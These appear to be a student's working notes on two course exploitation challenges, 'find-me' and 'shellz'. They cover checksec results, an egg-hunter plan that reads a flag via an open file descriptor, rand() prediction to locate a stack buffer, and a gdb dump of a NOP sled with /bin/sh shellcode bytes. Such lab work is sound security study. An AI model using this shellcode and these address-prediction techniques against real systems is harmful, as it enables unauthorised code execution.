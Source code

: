Find-me:

 checksec find-me
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/k-730/.cache/.pwntools-cache-3.13/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.14.1)
[*] '/home/k-730/COMP6447/wk3/find-me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

00401352  4883ec40           sub     rsp, 0x40
=> So stack frame is most likely 0x40 = 64 bytes
Stack frame always changing!

Our stack is at:
contents is printed at $rbp-0x30

Bad chars are 0xf,0x5! We cant use syscall!

This means we have to use the opened fd
file discriptor to read the contents of the flag!! From file descriptor

Should the small shellcode look for the bigger shellcode? YES!

Interesting, another file descriptor for the flag is opened @0x0040158c! Perhaps we must use this!

flag size is 190 bytes

Big buffer is: location is at:
b *main+1006

# 0x7fb5dc353fda

This is higher in memory! Than the smallbuff

small buff has to be less than or equal to 28 bytes. Otherwise big shellcode is lost

SHellz:

└─$ checksec shellz
[*] '/home/k-730/COMP6447/wk3/shellz'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

printf("Here is a random stack address: …", (int64_t)(rand() % 500) + &buf, &buf);
So stack is located at:
stack = leaked_stack + random
somewhere!

Now rsp is 0x2000 = 8192 bytes in size

possible attack paths
OMFG i just have to loop thru 500 of the bytes to find the buffer address
Use the c rand function in python to try and get the flag.

Best way is to predict the rand:

Predict rand() (best)

These instructions fuzz the random:
0040125e  4863d0             movsxd  rdx, eax                   0x3e92da52
00401261  4869d2d34d6210     imul    rdx, rdx, 0x10624dd3       0x3e92da52 *0x10624dd3 = 0x40134e2_72189b96
00401268  48c1ea20           shr     rdx, 0x20                  0x40134e2 =  0x40134e2_00000000
0040126c  c1fa05             sar     edx, 0x5                   0x2009a7
0040126f  89c1               mov     ecx, eax                   ecx = 0x3e92da52
00401271  c1f91f             sar     ecx, 0x1f(31)              ecx = 0x0 (Could be 1 or 0)!
00401274  29ca               sub     edx, ecx                   edx - ecx (1 or 0)
00401276  69caf4010000       imul    ecx, edx, 0x1f4            ecx = edx* (500)
0040127c  29c8               sub     eax, ecx
0040127e  89c2               mov     edx, eax
00401280  4863c2             movsxd  rax, edx
00401283  488d9500e0ffff     lea     rdx, [rbp-0x2000 {buf}]
0040128a  4801d0             add     rax, rdx {buf}

Example:
0x3e92da52
0x3e92da52 * 0x10624dd3 = 0x40134e272189b96
0x40134e2

x/80gx $rsp
0x7ffd5fdaec60: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec70: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec80: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec90: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaeca0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecb0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecc0: 0x2fbf4856f6314890      0x5768732f2f6e6962
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

pwndbg> x/4gx $rbp
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

WTF why does the order of the payload matter?
